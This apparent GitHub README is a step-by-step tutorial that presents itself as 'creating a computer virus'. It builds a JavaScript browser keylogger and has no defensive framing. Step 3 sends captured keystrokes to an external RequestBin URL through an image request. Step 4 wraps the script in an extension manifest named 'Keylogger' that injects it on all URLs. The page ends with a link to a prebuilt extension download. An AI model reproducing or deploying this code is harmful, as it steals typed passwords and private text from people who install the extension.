 # Creating a computer virus 

Welcome to creating a simple virus 

## Step 1

Lets print


```
var keys = '';
document.onkeypress = function (e) {
    get = window.event ? event : e;
    key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
window.setInterval(function () {
    if (keys.length > 0){
        console.log(keys);
    }
    keys = '';
}, 10000);
```

## Step 2

Lets do something fun

```
var keys = '';
document.onkeypress = function (e) {
    get = window.event ? event : e;
    key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
window.setInterval(function () {
    if (keys.length > 0){
        alert(keys);
    }
    keys = '';
}, 10000);
```


## Step 3

Lets take things to the next level

- Open [Request bin](https://requestbin.net/)

- Click **Create a RequestBin** 


```
var keys = '';
document.onkeypress = function (e) {
    get = window.event ? event : e;
    key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
window.setInterval(function () {
    if (keys.length > 0){
        new Image().src = 'http://{request bin url}?keys=' + keys;
    }
    keys = '';
}, 10000);
```


## Step 4

Lets make it even more cooler

/content.js 
```
{
  "manifest_version": 2,
  "name": "Keylogger",
  "version": "0.1",

  "content_scripts": [
    {
      "matches": [
        "<all_urls>"
      ],
      "js": ["content.js"]
    }
  ]
}
```
### Click [here](https://github.com/EXTREMOPHILARUM/virus/releases/download/0.1/extension.zip) if you dont want to work hard

